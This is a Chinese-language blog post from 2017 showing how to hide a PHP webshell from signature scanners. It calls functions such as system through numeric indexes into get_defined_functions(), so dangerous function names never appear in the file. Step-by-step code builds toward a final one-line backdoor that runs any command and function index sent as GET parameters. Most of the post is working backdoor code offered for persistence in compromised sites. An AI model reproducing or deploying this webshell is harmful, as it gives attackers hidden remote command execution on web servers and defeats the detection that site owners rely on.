 ```yaml
---
layout:     post
title:      "Using get_defined_functions To Hidden A PHP Backdoor"
subtitle:   "A little record"
date:       2017-08-17
author:     "Urahara"
categories: [Bypass, Webshell]


---
```




webshell隐藏是渗透当中一个很重要的权限维持技术，目前也有各种各样的隐藏方法，pen-tester的思路也越来越开放(weisuo)。这篇文章主要记录一下利用get_defined_functions()来隐藏webshell的方法，不是什么新技术，但也值得摸索。

关于get_defined_functions()就不在这里介绍了，大家直接去翻官方文档即可，这里看一下还函数的执行结果应该也能明了。

![func_arry](http://reverse-tcp.xyz/static/img/_posts/get_defined_functions/func_arry.png)

以下是一个该函数在webshell里边利用的一个思路，主要是可以隐藏危险函数字符串，而利用正则去文件系统及网络流量上匹配危险函数的安全防护对此也就无效了，先看代码：

```php
<?php
function callfunc() {

    $func = get_defined_functions();  //函数自己完成所有函数的枚举，成为list
    $args = func_get_args();  //获取传入参数值
    $func_id = array_shift($args);  //获取传入的函数所代表的list key
    $func_name = $func['internal'][$func_id];  //以key来索引函数名

    return call_user_func_array($func_name, $args);  //调用回调函数，传参执行
}
print callfunc(460, "whoami");
?>
```

这里自定义了一个callfunc函数，将system函数以索引460传入，并在call_user_func_array()函数执行

![callfunc](http://reverse-tcp.xyz/static/img/_posts/get_defined_functions/callfunc.png)

按照这个套路我们继续将*func_get_args()*、*array_shift()*、*call_user_func_array()*也用*get_defined_functions()*来调用，那么就变成了这样

```php
<?php
function callfunc() {

    $func = get_defined_functions();
    $args = $func['internal'][3]();
    $func_id = $func['internal'][805]($args);
    $func_name = $func['internal'][$func_id];

    return $func['internal'][556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

当然也可以是这样

```php
<?php
function callfunc() {

    $func = get_defined_functions()['internal'];
    $args = $func[3]();
    $func_id = $func[805]($args);
    $func_name = $func[$func_id];
    return $func[556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

最后我们将自定义函数名及所有变量名缩短，只留一个核心get_defined_functions()函数即可

```php
<?php
function f() {

    $a = get_defined_functions()['internal'];
    $s = $a[3]();
    $b = $a[805]($s);
    $c = $a[$b];
    return $a[556]($c, $s);
}
print f(460, 'whoami');
?>
```

**无特征webshell**

最后我们将所需要执行的命令及想要使用的函数key以参数方式提交，这样就可以完全避免掉危险函数字符串而不通过任何编码，并且相当自由化，你可以用system可以用exec等等。

```php
<?php function f() { $a = get_defined_functions()['internal'];$s = $a[3]();$b = $a[805]($s);$c = $a[$b];return $a[556]($c, $s); }print f($_GET['id'], $_GET['cmd']);?>
```

![wenshell](http://reverse-tcp.xyz/static/img/_posts/get_defined_functions/webshell.png)

